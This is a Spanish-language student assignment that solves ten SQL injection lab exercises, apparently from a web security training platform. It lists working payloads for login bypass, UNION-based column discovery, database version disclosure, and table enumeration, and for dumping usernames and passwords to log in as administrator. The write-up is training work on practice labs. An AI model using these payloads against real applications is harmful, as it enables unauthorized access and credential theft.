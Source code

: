 # Práctico 3 Base De Datos – Jose Ignacio Lavecchia

1- '+ OR 1 = 1 –  
También se podría hacer algo como esto:

SELECT * FROM products WHERE category = '' OR '1' = '1' AND released = 0; 

Suponiendo que released es un booleano en el que 0 es el valor de productos que no han sido liberados y 1 el de productos que ya han sido liberados.

2- Modificamos el parámetro de username con administrator '-- ya que así todo lo que siga en la consulta será ignorado por el -- de los comentarios.

3- La idea es realizar un ataque con el comando UNION, pero antes debemos asegurarnos de que el número de columnas en la consulta original coincide con el número de columnas de nuestra SQL Injection. Para esto, el comando UNION solo va a funcionar si el número y tipo de columnas coinciden.

Para esto, utilizamos un payload como este: 
'+UNION+SELECT+'abc','def'+FROM+dual--

Después procedemos a intentar obtener algún tipo de información de la base de datos, como por ejemplo la versión, para esto utilizamos el siguiente payload:

'+UNION+SELECT+BANNER,+NULL+FROM+v$version--

4- Primero determinamos el número de columnas que está devolviendo la query original y las columnas las cuales contienen la información, para ello utilizamos el siguiente payload:

'+UNION+SELECT+'abc','def'#

(# = Comentario)

Después utilizamos el siguiente payload para obtener la versión de la base de datos:

'+UNION+SELECT @@version,+NULL#

5- Primero determinamos el número de columnas que está devolviendo la query original y las columnas las cuales contienen la información, para ello utilizamos el siguiente payload:

'+UNION+SELECT+'abc','def'#

Procedemos a utilizar el siguiente payload para que nos devuelva las tablas en la base de datos:

'+UNION+SELECT+table_name,+NULL+FROM+information_schema.columns+WHERE+table_name = 'users_abcdef'—

Después de encontrar las columnas que contienen los usernames y las passwords, utilizamos el siguiente payload para que nos devuelva los usuarios y contraseñas para todos los usuarios:

'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef—

Finalmente encontramos la contraseña para el usuario “administrator” y nos logueamos.

6- Primero determinamos el número de columnas que está devolviendo la query original y las columnas las cuales contienen la información, para ello utilizamos el siguiente payload:

'+UNION+SELECT+'abc','def'+FROM+dual—

Procedemos a utilizar el siguiente payload para obtener la información de la lista de tablas en la base de datos:

'+UNION+SELECT+table_name,+NULL+FROM+all_tables—

Después de encontrar la tabla que tiene las credenciales del usuario, procedemos a realizar el siguiente payload para recibir información de las columnas de la tabla:

'+UNION+SELECT+column_name,+NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'—

Procedemos a ejecutar el siguiente payload para recibir la información de los usuarios y sus contraseñas:

'+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF—

Por último, simplemente encontramos al usuario llamado 'administrator' y su contraseña y nos logueamos.

7- Para determinar el número de columnas devueltas por la query, simplemente ejecutamos el siguiente payload:

'+UNION+SELECT+NULL,NULL—

Continuamos añadiendo `NULL` hasta que la consulta compile correctamente.

8- Primero determinamos el número de columnas devueltas por la query, una vez que obtenemos la cantidad de consultas correctas, simplemente empezamos a reemplazar cada `NULL` por un string hasta que compile correctamente, obteniendo así la columna de tipo texto.

'+UNION+SELECT+NULL,NULL,NULL—

'+UNION+SELECT+'seraestalacolumnadetipotexto?',NULL,NULL—

9- Primero determinamos el número de columnas devueltas por la query y cuáles de ellas contienen datos:

'+UNION+SELECT+'abc','def'—

Después, obtenemos las credenciales de la tabla de usuarios:

'+UNION+SELECT+username,+password+FROM+users—

Buscamos el usuario llamado 'administrator' y nos logueamos.

10- Finalmente, determinamos el número de columnas devueltas por la query y utilizamos este payload para concatenar las credenciales en una sola columna, separadas por `~`:

'+UNION+SELECT+NULL,'abc'—

'+UNION+SELECT+username||'~'||password+FROM+users—

